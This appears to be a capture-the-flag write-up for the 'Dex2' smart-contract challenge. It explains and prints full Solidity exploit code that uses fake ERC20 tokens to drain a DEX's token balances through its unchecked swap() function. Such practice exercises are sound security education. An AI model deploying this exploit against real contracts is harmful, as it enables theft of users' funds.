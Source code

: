 ## Solve the Dex2 challenge and write a full report about it with the proof of code included



1. **Objective**: Drain all balances of `token1` and `token2` from the `DexTwo` contract by exploiting the missing address check in the `swap()` function.

2. **Strategy**:
   - **Deploy `AttackDex2` Contract**: Implement a contract that interacts with `DexTwo` to exploit the vulnerability.
   - **Create `ScamToken`**: Develop a custom ERC20 token (`ScamToken`) to manipulate prices in the `DexTwo` contract.
   - **Token Preparation**: Mint 2 tokens for each `ScamToken`, keeping 1 and sending the other to the `DexTwo` contract to establish a 1:1 ratio.
   - **Approval and Swapping**: Approve the `AttackDex2` contract to interact with `scamToken1` and `scamToken2`, then execute swaps to drain the entire balances of `token1` and `token2`.

3. **Exploitation Code**:
   ```solidity
   // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDex {
    function swap(address, address, uint256) external;
    function token1() external view returns (address);
    function token2() external view returns (address);
}

interface IERC20 {
    function totalSupply() external view returns (uint256);
    function balanceOf(address) external view returns (uint256);
    function transfer(address, uint256) external returns (bool);
    function transferFrom(address, address, uint256) external returns (bool);
    function approve(address, uint256) external returns (bool);
    function allowance(address, address) external view returns (uint256);

    event Approval(address, address, uint256);
    event Transfer(address, address, uint256);
}

contract ScamToken is IERC20 {
    uint256 public totalSupply;

    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    function mint(uint256 amount) external {
        balanceOf[msg.sender] += amount;
        totalSupply += amount;

        emit Transfer(address(0), msg.sender, amount);
    }

    function burn(uint256 amount) external {
        balanceOf[msg.sender] -= amount;
        totalSupply -= amount;

        emit Transfer(msg.sender, address(0), amount);
    }

    function approve(address spender, uint256 amount) external returns (bool) {
        allowance[msg.sender][spender] = amount;

        emit Approval(msg.sender, spender, amount);
        return true;
    }

    function transfer(address to, uint256 amount) external returns (bool) {
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;

        emit Transfer(msg.sender, to, amount);
        return true;
    }

    function transferFrom(address sender, address to, uint256 amount) external returns (bool) {
        allowance[sender][msg.sender] -= amount;
        balanceOf[sender] -= amount;
        balanceOf[to] += amount;

        emit Transfer(sender, to, amount);
        return true;
    }
}

contract AttackDex2 {
    constructor(IDex dex) {
        IERC20 token1 = IERC20(dex.token1());
        IERC20 token2 = IERC20(dex.token2());

        ScamToken scamToken1 = new ScamToken();
        ScamToken scamToken2 = new ScamToken();

        scamToken1.mint(2);
        scamToken2.mint(2);

        scamToken1.transfer(address(dex), 1);
        scamToken2.transfer(address(dex), 1);

        scamToken1.approve(address(dex), 1);
        scamToken2.approve(address(dex), 1);

        dex.swap(address(scamToken1), address(token1), 1);
        dex.swap(address(scamToken2), address(token2), 1);

        require(token1.balanceOf(address(dex)) == 0, "Failed to drain token1");
        require(token2.balanceOf(address(dex)) == 0, "Failed to drain token2");
    }
}
   ```

4. **Summary**: Exploit the lack of token address validation in `DexTwo` by creating a scenario where `ScamToken1` and `ScamToken2` are used to manipulate swap calculations and drain all `token1` and `token2` balances from the contract.

This approach demonstrates how to effectively exploit the vulnerability in `DexTwo` to achieve the goal of draining all token balances using manipulated token swaps.
